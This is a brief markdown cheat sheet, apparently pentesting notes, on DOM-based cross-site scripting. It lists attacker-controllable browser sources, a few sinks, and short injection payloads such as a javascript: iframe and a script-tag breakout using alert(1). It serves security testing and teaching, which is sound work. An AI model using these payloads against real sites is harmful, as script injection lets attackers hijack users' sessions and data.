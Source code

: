 ## Solution
- Debug to trace :
  - premise: input and output
  - then: trying to bypass strictions

## Input
Always check the code, figure out what can be controlled by user, and what these parameter can be used.
```
var value = '<%request.getparameter("key")%>';
var value = document.cookie, url;
var value = location.search.substr(6)

document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

## output
```
<iframe src = javascript:alert(1)>
window.location.href = "javascript:alert(1)//"
document.write('<iframe src= ' + input + '>');
inside the script code: "><script>alert(1)</script>
```

## Other
- [Flash ExternalInterface.call() JavaScript Injection – can make the websites vulnerable to XSS](https://soroush.secproject.com/blog/2011/03/flash-externalinterface-call-javascript-injection-%E2%80%93-can-make-the-websites-vulnerable-to-xss/)

## Referer
- [hacktricks](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/dom-xss.md)
